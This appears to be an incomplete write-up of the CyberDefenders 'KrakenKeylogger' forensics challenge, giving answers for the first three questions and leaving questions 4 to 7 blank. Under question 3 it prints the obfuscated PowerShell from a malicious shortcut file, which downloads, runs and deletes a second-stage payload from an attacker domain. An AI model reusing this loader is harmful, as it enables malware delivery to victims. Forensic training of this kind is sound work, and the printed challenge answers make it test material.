 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/">KrakenKeylogger</a>

**Platform:** CyberDefenders

**Scenario:** An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.

The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `challenge directory`

**Tools:** `FTK Imager` `Autopsy` `Registry Explorer` `MFTECmd.exe` `Timeline Explorer`

> [FTK Imager](https://www.exterro.com/digital-forensics-software/ftk-imager) is a free data preview and imaging tool used to acquire electronic evidence in a forensically sound manner by creating copies of computer data without making changes to the original evidence.

**Note:** In this walkthrough, we will use the FlareVM to analyze the provided files. If you have not set it up yet, I highly recommend following this [malware analysis lab](https://github.com/mmhgwyjs/malware-analysis-lab/blob/main/README.md) guide for assistance with your installation.

## **Preparations**


## **Questions and Answers**

***1. What is the the web messaging app the employee used to talk to the attacker?***

\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications

![image](https://github.com/user-attachments/assets/64055a1d-a3e2-470f-b86b-38cb65425219)

telegram

![image](https://github.com/user-attachments/assets/85866de4-c737-4544-8035-b49f340e375b)


***2. What is the password for the protected ZIP file sent by the attacker to the employee?***

@1122d

![image](https://github.com/user-attachments/assets/3edfae11-f421-45b7-aa33-9018fba648fc)

***3. What domain did the attacker use to download the second stage of the malware?***

masherofmasters.cyou

![image](https://github.com/user-attachments/assets/63bd4db8-6ac7-4f51-b051-c843fc46905d)

lecmd.exe -f templet.lnk

![image](https://github.com/user-attachments/assets/e8d8a357-e98e-4382-a054-f15be12b63e1)

```
Relative Path: ..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
Icon Location: C:\Windows\System32\imageres.dll
```

certutil -hashfile templet.lnk

![image](https://github.com/user-attachments/assets/d54c5405-fb24-4238-a75b-e59f122b2bdc)

8b49368462651afa265273151a1e7d4ea19e6347

![image](https://github.com/user-attachments/assets/f248f584-9520-4fd4-bc8d-371d1f3e4938)

masherofmasters.cyou

***4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?***

***5. What is the complete path of the malicious file that the attacker used to achieve persistence?***

***6. What is the name of the application the attacker utilized for data exfiltration?***

***7. What is the IP address of the attacker?***
